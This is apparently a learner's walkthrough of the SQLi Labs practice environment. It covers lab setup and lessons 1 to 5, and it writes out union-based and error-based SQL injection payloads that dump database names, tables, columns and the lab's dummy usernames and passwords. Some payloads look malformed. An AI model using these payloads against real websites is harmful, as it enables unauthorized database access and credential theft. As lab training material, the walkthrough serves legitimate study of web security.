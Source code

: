 ### **SQLi Labs**

First we have to set up sqli labs
For that we can use the following commands
install apache2 webserver by > sudo apt install apache2
install mysql by > sudo apt-get install mysql-srver
install php7
git clone the repository of the lab and start all the services.

#LESS1
The website says,Please input the ID as parameter with numeric value.
So we can input ?id=1 or 2,3,4,5.....
when we put ' we get sql error 
thus we have a sql injection
we can comment ou the rest of the query by -- - or other comments in sql language.
We can dump contents

 payloads to dump
 We can get version of the server by using /?id=-1' union select 1,version(),3--+
 We can get databasename of the server by using /?id=-1' union select 1,database(),3--+  databasename = security
 Going to the terminal and going to mysql. If we type show databases; it shows databases
 Then we can security also. We can find more details using "use security we can go into the database.
 Using show tables; we can see the tables. For looking into the tables desc emails; and so on...
 
#LESS2
The website says,Please input the ID as parameter with numeric value.
This time when we input use ?id=1'-- - doesn't work.
So we put ' before the 1 and change it as ?id='1' as payload.
Now we can comment it ?id='1' -- - 
Now we can dump contents using the payloads.

#payloads to dump
to find column_name ?id='-1' union select 1,group_concat(column_name),3 from information_schema.columns where table_name='users'--+
We have more payloads that can we do and get contents of database

#LESS3
The website says,Please input the ID as parameter with numeric value.
This time when we input use ?id=1'-- - nor ?id='1'-- - doesn't work.
So we put ) before the ' and change it as ?id=1)' as payload.
No we can comment it ?id=1)'-- -
Now we can dump contents using payloads

#payloads to dump
to find data /?id=-1') union select 1,group_concat(username),3 from users
We have more payloads that can we do and get contents of database

#LESS4
The website says,Please input the ID as parameter with numeric value.
We have to use ') ' as payload 
Now can comment it using ?id=1' ")-- -
Now we can dump contents using payloads

#payloads to dump 
?id=-1' ")-- - union select 1,group_concat(username),group_concat(password) from users
We have more payloads that can we do and get contents of database.

#LESS5
In this challenge we don't get any response form the databse directy to the browser
but we get the error when we break the query,so we can dump the database through the error
we can use rand(),floor(),count() to get error

#payloads to dump
this will get database /?id=1' AND (select 1 from(select count(*),concat((select database()),floor(rand()*2))a from information_schema.tables group by a)b)--+
to get table names /?id=1' AND (select 1 from(select count(*),concat((select table_name from information_schema.tables where table_schema=database() limit 0,1),floor(rand()*2))a from information_schema.tables group by a)b)--+
to get columns /?id=1' AND (select 1 from(select count(*),concat((select column_name from information_schema.columns where table_name='emails' limit 0,1),floor(rand()*2))a from information_schema.tables group by a)b)--+

#contents of database
1.databasename = security
2.tables = emails,referers,uagents,users
3.columns = CURRENT_CONNECTIONS,TOTAL_CONNECTIONS,USER,id,password,username
4.usernames = Dumb,Angelina,Dummy,secure,stupid,superman,batman,admin,admin1,admin2,admin3,dhakkan,admin4
password = Dumb,I-kill-you,p@ssword,crappy,stupidity,genious,mob!le,admin,admin1,admin2,admin3,dumbo,admin4
